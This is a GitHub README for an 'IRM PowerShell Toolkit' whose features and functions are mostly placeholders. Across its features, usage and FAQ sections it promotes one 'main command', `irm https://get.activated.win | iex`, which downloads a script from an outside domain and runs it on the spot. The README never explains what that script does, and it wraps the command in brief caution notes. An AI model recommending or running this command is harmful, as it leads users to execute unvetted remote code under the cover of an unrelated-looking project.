



# 🚀 IRM PowerShell Toolkit

<p align="center">
  
</p>

[](https://opensource.org/licenses/MIT) [](https://docs.microsoft.com/powershell) [](#) [](#)

> A premium Windows PowerShell toolkit demo with rich visuals, clear docs, and a polished GitHub presentation.

<div align="center">
  
  
  
  
</div>

---

## ✨ Project Overview

IRM is a sleek, developer-focused PowerShell project skeleton designed to help you launch a professional automation repository quickly.

Built for clarity, style, and future expansion, this README includes:
- elegant section formatting
- animated style callouts and status bars
- screenshots and project highlight cards
- powerful command placeholder support

---

## 🚀 Key Features

### What makes IRM premium?

- **Modern GitHub layout** with badges, tiled sections, and gradient-inspired styling
- **Animated-style markdown flow** using icons, progress bars, and callouts
- **Usage examples** with a direct placeholder for `irm https://get.activated.win | iex`
- **Structured documentation** for fast onboarding and contribution
- **Developer checklist** for smooth project handoff

### Advanced feature set

- 📦 `Auto-provision` setup planning
- ⚡ `Remote command` integration hint
- 🔒 Safety reminder blocks for untrusted commands
- 🧪 Environment validation placeholders
- 🌐 GitHub-ready license + FAQ support

---

## 🧠 Feature Matrix

| Feature | Benefit | Priority |
|---|---|---|
| Markdown-driven docs | Easy editing and maintenance | High |
| Placeholder remote command | Quick demo-ready execution | Medium |
| Animated section style | Improved developer experience | Medium |
| Screenshot gallery | Visual proof-of-concept | Low |
| License + FAQ | Open-source readiness | High |

---

## 🧩 Function Catalog

| Function | Purpose | Status |
|---|---|---|
| `Start-IRMSession` | Initialize the PowerShell session | Planned |
| `Invoke-IRMCommand` | Run a specific automation command | Scoped |
| `Test-IRMEnvironment` | Verify the runtime and OS environment | Planned |
| `Get-IRMStatus` | Report repository health metrics | Planned |

> These are conceptual function names to help shape the future script architecture.

---

## 📌 Requirements

| Requirement | Minimum Version | Notes |
|---|---|---|
| Windows 10 / Windows Server | Latest supported build | Best compatibility for PowerShell scripts |
| PowerShell | 5.1 or newer | PowerShell 7+ recommended |
| Git | 2.0 or newer | Needed for source control and CI workflows |
| GitHub CLI | Latest | Optional but ideal for repo automation |

---

## ⚙️ Installation

```powershell
# Clone the repository
git clone https://github.com/SURJO99exe/irm.git
cd irm

# Optional: initialize local tooling
# powershell -NoProfile -ExecutionPolicy Bypass -File .\setup.ps1
```

### Quick start

1. Clone the repository
2. Open PowerShell in the project folder
3. Run your initialization script or demo command

> Tip: Use `pwsh` if you have PowerShell Core installed for the best scripting experience.

---

## ▶️ Usage

> [!IMPORTANT]
> Main command:
>
> ```powershell
> irm https://get.activated.win | iex
> ```

### Recommended execution sequence

```powershell
cd irm
git pull origin master
powershell -NoProfile -ExecutionPolicy Bypass -File .\run.ps1
```

> ⚠️ The command above is a placeholder. Review any remote script carefully before executing it.

---

## 🎬 Screenshots

| Project Overview | Visual Playground | Execution Flow |
|---|---|---|
|  |  |  |

> The gallery now uses local project visuals for a cleaner GitHub presentation.

---

## 📈 Animation & Styling

- `🚀 Animated headings` give a sense of progress
- `📊 Status badges` offer instant visual cues
- `✨ Highlight blocks` create a polished documentation feel
- `🎨 Screenshot gallery` provides visual context
- `✅ Step-by-step flows` make the README easier to scan

```text
[=====           ] 40% loading...
[============    ] 75% ready...
[================] 100% complete
```

---

## 💡 FAQ

**Q: What is this repository best suited for?**

A: A clean PowerShell automation starter repo with premium README documentation and a developer-first layout.

**Q: Why is `irm https://get.activated.win | iex` the main command?**

A: It is the primary demo command for this project and should be highlighted as the default entry point. Always verify remote content before running it.

**Q: What should I change next?**

A: Add real PowerShell scripts, update the function catalog, and replace screenshot placeholders with actual visuals.

**Q: Can I use this for production?**

A: Use this README structure as a foundation. Add actual scripts, tests, and security validation before production use.

---

## 📜 Disclaimer

> This README is for documentation and demonstration purposes only. Do not execute remote PowerShell commands without validating the source, content, and behavior of the target script. Use caution when running `Invoke-Expression`.

---

## 📝 License

Licensed under the MIT License.

```text
MIT License

Copyright (c) 2026 SURJO99exe

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```
